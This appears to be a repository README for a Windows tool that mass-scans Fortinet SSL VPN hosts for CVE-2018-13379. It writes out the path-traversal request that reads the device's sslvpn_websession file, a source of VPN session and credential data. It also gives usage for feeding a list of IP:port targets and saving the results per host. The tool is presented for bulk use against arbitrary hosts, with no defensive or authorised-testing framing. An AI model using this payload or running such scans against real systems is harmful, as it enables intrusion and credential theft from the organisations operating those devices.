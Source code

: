 # Legadro-Forti-Scanner

It is updated Forti Vpn Scanner of (CVE-2018-13379) (FG-IR-18-384) for Windows. 
Automatic scan for vuln of: /remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
Fixed bugs such as stuck on dead Forti IP and saving results in folder: output as a ip:port.html

How to use:

legadro-forti-scanner.exe ips.txt

ips.txt must be in format like this:

ip:port
